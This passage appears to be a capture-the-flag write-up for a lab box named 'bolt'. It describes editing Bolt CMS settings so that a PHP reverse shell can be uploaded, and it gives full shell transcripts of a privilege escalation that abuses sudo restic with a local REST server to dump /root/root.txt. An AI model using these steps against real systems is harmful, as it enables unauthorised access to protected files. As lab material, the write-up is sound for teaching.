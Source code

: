 We try to upload a `shell.php` file into the `bolt CMS` but it blocks us.
![[Pasted image 20210718202639.png]]

We could modify the config file to allow us to upload the `php` file.
![[Pasted image 20210718203348.png]]

We add `php` to the allowed extensions.
![[Pasted image 20210718203840.png]]

But, We upload the php reverse shell but, It does not work as the firewall on the box blocks us.

![[Pasted image 20210718204713.png]]

# Root Escalation
We compile a rest server and upload it into the box and run.
```python
bolt@bolt:/dev/shm$ ./rest-server --no-auth
Data directory: /tmp/restic
Authentication disabled
Private repositories disabled
Starting server on :8000
```

We could `restic` init the `REST` server repo.
```python
www-data@bolt:~/html/bolt/files$ restic init -r rest:http://127.0.0.1:8000/
enter password for new repository: 
enter password again: 
created restic repository 76f86a68be at rest:http://127.0.0.1:8000/

Please note that knowledge of your password is required to access
the repository. Losing your password means that your data is
irrecoverably lost.
www-data@bolt:~/html/bolt/files$ sudo restic backup -r rest:http://127.0.0.1:8000/ /root/root.txt
enter password for repository: 
password is correct
found 2 old cache directories in /var/www/.cache/restic, pass --cleanup-cache to remove them
scan [/root/root.txt]
scanned 0 directories, 1 files in 0:00
[0:00] 100.00%  33B / 33B  1 / 1 items  0 errors  ETA 0:00 
duration: 0:00
snapshot e7e869b4 saved
www-data@bolt:~/html/bolt$ restic -r rest:http://127.0.0.1:8000 snapshots
enter password for repository: 
password is correct
unable to open cache: Stat: stat /var/www/.cache/restic: permission denied
ID        Date                 Host        Tags        Directory
----------------------------------------------------------------------
e7e869b4  2021-07-18 15:40:36  bolt                    /root/root.txt
----------------------------------------------------------------------
1 snapshots
www-data@bolt:~/html/bolt$ restic -r rest:http://127.0.0.1:8000 ls e7e869b4
enter password for repository: 
password is correct
unable to open cache: Stat: stat /var/www/.cache/restic: permission denied
snapshot e7e869b4 of [/root/root.txt] at 2021-07-18 15:40:36.689810285 +0000 UTC):
/root.txt
www-data@bolt:~/html/bolt$ restic -r rest:http://127.0.0.1:8000 dump e7e869b4 /root.txt
enter password for repository: 
password is correct
unable to open cache: Stat: stat /var/www/.cache/restic: permission denied
ntrkzgnkotaxyju0ntrinda4yzbkztgw
```